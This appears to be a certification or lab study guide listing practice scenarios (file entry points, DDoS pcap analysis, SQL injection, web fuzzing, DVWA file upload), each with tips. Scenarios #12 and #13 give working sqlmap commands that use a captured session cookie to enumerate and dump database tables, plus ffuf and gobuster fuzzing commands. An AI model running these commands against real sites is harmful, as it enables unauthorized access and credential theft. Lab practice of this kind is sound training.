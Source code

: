## Example Scenario #10
Find a file entry point. File is given.
- **Tips:** Use DIE(detect it easy) or exeinfo PE tools.
- **Things to google:** Analyze ELF Executable File using Detect It Easy (DIE), Find the Portable Executable (PE) Information of a Malware Executable File

## Example Scenario #11
From a pcap file, analyze a DDOS attack and provide the IP address that sent most packets.
- **Tips:** Use Wireshark and statistics tab
- **Things to google:** Detect DDOS attack with Wireshark

## Example Scenario #12
You are provided a username/password for a website. Use SQL Injection attack to extract the password of another user.
- **Tips:** Log in with the given credential. Go to profile page note the full url. In developer tools go to Console and type document.cookie Use cookie to extract the password of a user from the table with sqlmap.
  - `$ sqlmap -u "URL of profile page" --cookie="captured cookie of logged in user" --dbs`    #for Database
  - `$ sqlmap -u "URL" --cookie="captured cookie of logged in user" -D *DATABASE NAME* --tables` #for Tables of selected Database
  - `$ sqlmap -u "URL" --cookie="captured cookie of logged in user" -D *DATABASE NAME* -T *TABLE NAME* --columns` #for Column names
  - `$ sqlmap -u "URL" --cookie="captured cookie of logged in user" -D *DATABASE NAME* -T *TABLE NAME* --dump` #dump the table
- **Things to google:** SQL Injection Vulnerabilities, SQL Injection Challenge (SQLMAP THM Free Room)

## Example Scenario #13
Exploit a web application at www.xxxx.com and enter the flag value from a given page.
Find a login page, or owasp zap 
Check for robots.txt
Fuzz the server for pages
>ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.143.169/FUZZ -mc all -c -fc 404 -e .php,.html,.txt
>gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .html,.php -u http://10.10.10.10
- **Tips:** Find any input parameter on website and capture the request in burp and then use it to perform sql injection using sqlmap
  - `sqlmap -r <txt file from burpsuite> -D <database name> --tables`
  - `sqlmap -r <txt file from burpsuite> -D <database name> --tables --columns`
  - `sqlmap -r <txt file from burpsuite> -D <database name> --dump`
  - `sqlmap -r <txt file from burpsuite> -D <database name> --tables -T users`
- **Things to google:** SQL Injection Vulnerabilities, SQL Injection Challenge (SQLMAP THM Free Room)

## Example Scenario #14
Perform vulnerability research and exploit the target at a given site. Looks for file upload functionality.
- **Tips:** Scan the target with Zapp to find the vulnerability. Then exploit it. It can be file upload/File inclusion vulnerability on DVWA.
- **Things to google:** DVWA file upload, File Inclusion

